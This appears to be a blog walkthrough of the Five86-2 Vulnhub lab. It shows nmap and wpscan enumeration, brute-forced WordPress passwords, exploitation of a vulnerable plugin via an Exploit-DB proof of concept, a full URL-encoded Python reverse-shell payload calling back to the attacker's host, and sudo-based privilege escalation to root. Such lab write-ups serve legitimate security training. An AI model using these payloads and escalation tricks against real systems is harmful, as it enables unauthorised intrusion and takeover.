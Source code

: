 ```yaml
---
title: "Five86 : 2"
categories: [Proving Grounds Play]
tags: [Public Exploit, RFI, service, tcpdump, Wordpress, PrivEsc, CMS]
image:
  path: https://user-images.githubusercontent.com/69093629/223876366-7dc516ae-9725-44eb-896c-6136b38f75a5.jpg
  width: "1200"
  height: "630"
  alt:  Five86-2 Machine 🖥️
---
```



| Machine     | <center>Details</center>                     |
| ----------- | -------------------------------------------- |
| **Vulnhub** | https://www.vulnhub.com/entry/five86-2,418/  |
| **Level**   | <center>beginner</center>                    |
| **Creator** | <center>@m0tl3ycr3w and @syed__umar</center> |


### Lets find the IP address first of the victim machine ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled.png)

```bash
IP : 10.0.2.43
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Five86.2]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.43
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:36 IST
Nmap scan report for 10.0.2.43
Host is up (0.0020s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-title: Five86-2 &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:19:F4:DF (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```
{: .nolineno}

## Web Enumeration ⤵️

Lets set the `/etc/hosts` file as `five86-2`.

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%201.png)

Now lets run wpscan ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%202.png)

got 3 users → admin , barney , stephen 

Lets find the passwords also through wpscan ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%203.png)

```bash
barney : spooky1
stephen : apollo1
```
{: .nolineno}

Lets login with barney credentials →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%204.png)

Now in plugin section I found a vulnerable service lets enable it for uploading our payload ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%205.png)

Now through web I got an [exploit](https://www.exploit-db.com/exploits/46981) poc for exploiting this service →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%206.png)

So lets follow this path ⬆️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%207.png)

Now lets upload our payload →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%208.png)

Now After Inserting I got the path so lets load the url ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2010.png)

As I got the command Injection so lets have a reverse shell.

```bash
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.42%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2011.png)

Now lets dig into the shell → 

```bash
www-data@five86-2:/home$ ls -al
ls -al
total 40
drwxr-xr-x 10 root    root    4096 Jan  9  2020 .
drwxr-xr-x 20 root    root    4096 Jan  8  2020 ..
drwx------  2 barney  barney  4096 Jan 13  2020 barney
drwx------  2 george  george  4096 Jan 13  2020 george
drwx------  2 gillian gillian 4096 Jan 13  2020 gillian
drwx------  2 john    john    4096 Jan 13  2020 john
drwx------  3 paul    paul    4096 Jan 13  2020 paul
drwx------  4 peter   peter   4096 Jan 13  2020 peter
drwx------  2 richard richard 4096 Jan 13  2020 richard
drwx------  2 stephen stephen 4096 Jan 13  2020 stephen
www-data@five86-2:
```
{: .nolineno}

Now I got 8 users →

```bash
barney:x:1001:1001:Barney Sumner:/home/barney:/bin/bash
stephen:x:1002:1002:Stephen Morris:/home/stephen:/bin/bash
peter:x:1003:1003:Peter Hook:/home/peter:/bin/bash
gillian:x:1004:1004:Gillian Gilbert:/home/gillian:/bin/bash
richard:x:1005:1005:Richard Starkey:/home/richard:/bin/bash
paul:x:1006:1006:Paul McCartney:/home/paul:/bin/bash
john:x:1007:1007:John Lennon:/home/john:/bin/bash
george:x:1008:1008:George Harrison:/home/george:/bin/bash
```
{: .nolineno}

Lets use the same wpscan passwords for switching to another users →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2012.png)

```bash
stephen@five86-2:/$ id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
```
{: .nolineno}

Now lets look for the capability files ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2013.png)

So I have tcpdump Lets look for the services/files/ethernet Interface it is running to →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2014.png)

Now lets run the tcpdump at this ⬆️`veth8d3c874` interface and capture some traffic into `cap.pcap` file →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2015.png)

Now I got a credential for paul →

```bash
paul : esomepasswford
```
{: .nolineno}

lets switch user and recon further →

```bash
paul@five86-2:~$ sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service
```
{: .nolineno}

Now call the /bin/sh service for peter to get the peter shell ➡️

```bash
paul@five86-2:~$ sudo -u peter service ../../bin/sh
$ whoami
peter
$ id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd 
$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
$ su root
Password: 
root@five86-2:/# whoami
root
root@five86-2:/# id
uid=0(root) gid=0(root) groups=0(root)
root@five86-2:/# ls -al /root
total 48
drwx------  5 root root 4096 Jan 13  2020 .
drwxr-xr-x 20 root root 4096 Jan  8  2020 ..
-rw-------  1 root root 1798 Jan 13  2020 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jan  9  2020 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwxr-xr-x  3 root root 4096 Jan  8  2020 snap
drwx------  2 root root 4096 Jan  8  2020 .ssh
-rwx------  1 root root  995 Jan  9  2020 thisistheflag.txt
-rw-------  1 root root 8853 Jan 13  2020 .viminfo
```
{: .nolineno}

`thisistheflag.txt` file ⤵️

```bash
root@five86-2:/# cat /root/thisistheflag.txt

__   __            _                           _                                 _ _ _ _ _ 
\ \ / /           | |                         | |                               | | | | | |
 \ V /___  _   _  | |__   __ ___   _____    __| | ___  _ __   ___  __      _____| | | | | |
  \ // _ \| | | | | '_ \ / _` \ \ / / _ \  / _` |/ _ \| '_ \ / _ \ \ \ /\ / / _ \ | | | | |
  | | (_) | |_| | | | | | (_| |\ V /  __/ | (_| | (_) | | | |  __/  \ V  V /  __/ | |_|_|_|
  \_/\___/ \__,_| |_| |_|\__,_| \_/ \___|  \__,_|\___/|_| |_|\___|   \_/\_/ \___|_|_(_|_|_)
                                                                                           
                                                                                           
Congratulations - hope you enjoyed Five86-2.

If you have any feedback, please let me know at @Five86_x

I also want to send out a big thanks to all those who help me with beta testing
of the various challenges:  @m0tl3ycr3w and @syed__umar in particular

root@five86-2:/#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }